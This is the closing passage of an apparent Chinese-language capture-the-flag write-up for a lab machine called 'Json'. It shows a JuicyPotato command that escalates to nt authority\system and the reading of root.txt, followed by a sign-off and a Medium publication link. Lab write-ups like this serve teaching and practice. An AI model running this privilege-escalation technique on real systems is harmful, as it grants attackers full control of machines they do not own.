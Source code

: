 运行 juicypotato:

```
.\j.exe -t * -l 9001 -p c:\Users\userpool\Music\test.bat -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

![](img/2504a4292253bb693782703b0e420ace.png)

我得到一个外壳作为 nt authority\system。我现在可以阅读 root.txt:

```
C:\Users\superadmin>type Desktop\root.txt
type Desktop\root.txt
3cc85d1bed2ee84a...
```

所以我就是这么解决 Json 的。我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)
